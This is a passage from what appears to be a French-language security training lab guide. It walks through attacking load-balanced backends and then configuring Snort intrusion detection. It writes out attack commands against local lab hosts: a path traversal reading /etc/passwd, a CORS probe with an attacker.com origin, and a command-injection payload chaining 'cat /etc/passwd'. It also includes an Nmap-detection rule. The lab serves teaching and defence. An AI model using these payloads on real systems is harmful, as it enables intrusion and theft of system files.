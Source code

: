 2. **Accès à l'interface d'administration**
   - Ouvrez http://localhost:8404/stats
   - Observez les backends configurés et leur état actuel

### Phase 2: Contournement de l'équilibrage

1. **Détection de la méthode d'équilibrage**
   - Identifiez le type d'équilibrage utilisé (roundrobin, sticky sessions)
   ```bash
   for i in {1..10}; do curl -s http://localhost/ | grep -o "Backend [0-9]"; done
   ```

2. **Attaque directe des backends**
   - Contournez l'équilibreur en accédant directement aux backends:
   ```bash
   curl http://172.16.99.21/
   curl http://172.16.99.22/
   ```

### Phase 3: Exploitation des backends

1. **Exploitation de la traversée de répertoire**
   - Essayez d'accéder à des fichiers sensibles via le backend1:
   ```bash
   curl http://172.16.99.21/files/../etc/passwd
   ```

2. **Exploitation des vulnérabilités CORS**
   - Analysez les entêtes CORS du backend2:
   ```bash
   curl -I -H "Origin: http://attacker.com" http://172.16.99.22/
   ```

### Phase 4: Exploitation de l'API

1. **Injection de commande via l'API**
   - Utilisez l'API vulnérable pour exécuter des commandes:
   ```bash
   curl -X POST http://localhost/api/ping -H "Content-Type: application/json" -d '{"host":"127.0.0.1; cat /etc/passwd"}'
   ```

## Scénario 4: Détection d'intrusion

**Objectif**: Configurer la détection d'intrusions et déclencher/analyser des alertes.

**Modules requis**: Core + Monitoring

**Démarrage**:
```bash
./start-monitoring-scenario.sh
```

### Phase 1: Configuration de la détection

1. **Configuration des règles Snort**
   - Examinez les règles existantes:
   ```bash
   cat snort/rules/local.rules
   ```
   - Ajoutez une règle personnalisée pour détecter les scans Nmap:
   ```
   alert tcp any any -> any any (msg:"Nmap Scan detected"; flags:S; threshold: type threshold, track by_src, count 20, seconds 60; sid:1000005; rev:1;)
   ```
